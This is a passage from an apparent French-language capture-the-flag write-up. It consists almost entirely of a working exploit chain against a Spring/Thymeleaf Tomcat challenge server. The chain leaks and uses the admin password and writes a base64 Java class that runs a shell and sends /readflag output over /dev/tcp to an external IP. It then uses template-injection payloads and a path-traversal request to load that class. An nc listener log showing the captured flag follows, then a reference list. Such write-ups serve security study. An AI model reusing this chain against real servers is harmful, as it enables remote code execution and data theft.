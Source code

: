 et : 

```python
c = client(url = 'http://<ip>:8080')
admin_passwd = c.leak_admin_password()
c.login('admin', admin_passwd)

payload_class = '''
yv66vgAAAD0AIwoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClW
BwAIAQAQamF2YS9sYW5nL1N0cmluZwgACgEACS9iaW4vYmFzaAgADAEAAi1jCAAOAQAoL3JlYWRm
bGFnID4gL2Rldi90Y3AvMTc2LjE0My4xMDIuNDcvMzMzMwoAEAARBwASDAATABQBABFqYXZhL2xh
bmcvUnVudGltZQEACmdld          [REDACTED]          QAAMACQAfAAYAAQAdAAAAXgAE
AAEAAAAhBr0AB1kDEglTWQQSC1NZBRINU0u4AA8qtgAVV6cABEuxAAEAAAAcAB8AGQACAB4AAAAW
AAUAAAAHABQACAAcAAoAHwAJACAACwAgAAAABwACXwcAGQAAAQAhAAAAAgAi
'''.strip().replace('\n','')

c.file_write(
    data=payload_class,
    path=f"/tmp/Tfns.class"
)
all_payloads = [
    '''
''.getClass().forName("org."+"apache.tomcat.util.http.fileupload.FileUtils").forceMkdir(
    "/tmp/tomcat-docbase.8080.4797479350720433534/WEB-INF/classes/"
)
'''.strip(),
    '''
''.getClass().forName("org."+"apache.catalina.startup.ExpandWar").copy(
    "/tmp/Tfns.class","/tmp/tomcat-docbase.8080.4797479350720433534/WEB-INF/classes/Tfns.class"
)
'''.strip(),
    '''
''.getClass().forName("ch.qos.logback.core.util.Loader").loadClass("Tfns").pwn()
'''.strip(),
]
for payload in all_payloads:
    c.file_write(
        data="__$\{\%s\}__::.x"% payload,
        path=f"/tmp/rce"
    )
    c.notify(payload='..%5ctmp/rce%3F')
```

Et enfin: 
```bash
$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [<IP>] from (UNKNOWN) [<IP>] 56874
rwctf{b2ed2442-b9e0-11ee-a668-00163e01b905}
```

## Références:
- [Veracode - Spring View Manipulation Vulnerability](https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability)
- [Acunetix - Exploiting ssti in thymeleaf](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
- [AeroCTF - Localization is hard](https://ret2school.github.io/post/localization_is_hard_wu/)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#thymeleaf-java)
- [PayloadsAllTheThings - PostgreSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/)
- [Postgresql docs](https://www.postgresql.org/docs/8.1/sql-syntax.html)